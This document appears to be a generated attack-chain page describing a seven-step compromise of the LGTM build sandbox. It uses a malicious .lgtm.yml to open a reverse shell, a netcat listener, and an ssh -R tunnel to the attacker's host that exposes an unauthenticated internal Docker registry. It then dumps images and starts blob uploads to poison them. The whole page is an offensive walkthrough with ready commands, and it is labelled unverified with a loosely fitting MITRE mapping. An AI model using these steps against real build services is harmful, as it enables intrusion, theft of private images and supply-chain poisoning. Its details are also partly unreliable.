

---
# LGTM Build Sandbox RCE Leading to Exposed Docker Registry Image Dumping and Poisoning

Multi-stage attack chain demonstrating exploitation of an unauthenticated Docker Registry exposed in the LGTM build sandbox via RCE, allowing unauthorized image dumping and potential poisoning.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 7 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/netcat]]
- [[tools/SSH]]
- [[tools/docker_fetch]]

### Target Environment

- LGTM (Semmle) build sandbox on Linux/Docker
- Exposed Docker Registry v2 on host port 5000 (accessible via 172.17.0.1:5000 from container)
- No authentication on registry API

### Initial Access Requirements

- GitHub account to create repository
- Attacker's machine with SSH server running
- Network access to LGTM build service

## Detailed Attack Procedures

### Step 1: Trigger RCE via LGTM YAML
procedure: [[procedures/Trigger-RCE-via-LGTM-YAML]]

**Objective**: Configure a GitHub repository to execute RCE during LGTM build, establishing a reverse shell.

**Instructions**: Create a GitHub repo and add a .lgtm.yml file that runs a command to connect a reverse shell to the attacker's listener. Modify ATTACKER_HOST and ATTACKER_PORT accordingly.

**Expected Output**: Reverse shell connection initiated upon build start.

**Success Indicators**:
- .lgtm.yml file committed and pushed
- Build configuration validated in repo

### Step 2: Set Up Netcat Listener
procedure: [[procedures/Set-Up-Netcat-Listener]]

**Objective**: Prepare the attacker's machine to receive the reverse shell from the build container.

**Instructions**: Execute [[commands/netcat-listener]] on the attacker's machine:

```bash
nc -vlp ATTACKER_PORT
```

Replace ATTACKER_PORT with a chosen port, e.g., 4444.

**Expected Output**: Listener waiting for connections.

**Success Indicators**:
- Netcat process running and listening
- No firewall blocks on the port

### Step 3: Initiate LGTM Build
procedure: [[procedures/Initiate-LGTM-Build]]

**Objective**: Trigger the LGTM build process to execute the RCE payload and establish the reverse shell.

**Instructions**: Add the GitHub project to LGTM, which starts the build and runs the .lgtm.yml configuration.

**Expected Output**: Reverse shell connects to the netcat listener after build initialization.

**Success Indicators**:
- Build status shows running in LGTM dashboard
- Incoming shell session in netcat

### Step 4: Establish SSH Tunnel from Container
procedure: [[procedures/Establish-SSH-Tunnel-from-Container]]

**Objective**: From the reverse shell, forward the internal Docker Registry port to the attacker's machine via SSH tunnel.

**Instructions**: In the reverse shell, run [[commands/ssh-remote-forward]]:

```bash
ssh -R 5555:172.17.0.1:5000 attacker@ATTACKER_HOST -p SSH_PORT -f -N
```

Set SSH_PORT to your SSH server port, e.g., 22.

**Expected Output**: Tunnel process backgrounds successfully.

**Success Indicators**:
- SSH process PID returned
- No connection errors in shell

### Step 5: Authenticate SSH Tunnel
procedure: [[procedures/Authenticate-SSH-Tunnel]]

**Objective**: Provide credentials to complete the SSH tunnel setup, making it persistent.

**Instructions**: When prompted in the reverse shell, enter the password for the 'attacker' user on the SSH server.

**Expected Output**: Authentication success; tunnel active and persistent even if shell drops.

**Success Indicators**:
- No auth failure messages
- Port 5555 accessible on attacker's localhost

### Step 6: Dump Images with Docker Fetch
procedure: [[procedures/Dump-Images-with-Docker-Fetch]]

**Objective**: Use the tunneled endpoint to download Docker images from the registry without authentication.

**Instructions**: Configure [[tools/docker_fetch]] to target http://127.0.0.1:5555/ and specify the repository, e.g., 'lgtm/top'.

**Expected Output**: Downloaded image layers and manifests.

**Success Indicators**:
- Images successfully pulled and saved locally
- No auth errors from registry API

### Step 7: Test Blob Upload for Poisoning
procedure: [[procedures/Test-Blob-Upload-for-Poisoning]]

**Objective**: Exploit the lack of restrictions to upload malicious blobs and poison images.

**Instructions**: Initiate a POST to /v2/<name>/blobs/uploads/ via the tunneled endpoint, which returns a UUID for upload without checks.

**Expected Output**: UUID response allowing blob upload.

**Success Indicators**:
- Upload initiation succeeds
- Potential for image modification confirmed

## Attack Chain Summary

### Key Achievements

1. Achieved RCE in LGTM sandbox via custom build YAML
2. Exposed internal Docker Registry through persistent SSH tunnel
3. Dumped sensitive images like 'lgtm/top' without authentication
4. Demonstrated capability for image poisoning via unrestricted blob uploads

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Unix Shell]] Unix Shell
- [[Protocol Tunneling]] Protocol Tunneling
- [[Internal Spearphishing]] Internal Spearphishing (adapted for build config)

### MITRE ATT&CK Tactics

- [[Execution]] Execution
- [[Lateral Movement]] Lateral Movement
- [[Collection]] Collection
- [[Impact]] Impact

---
*Last updated: 2023-10-01T00:00:00Z*
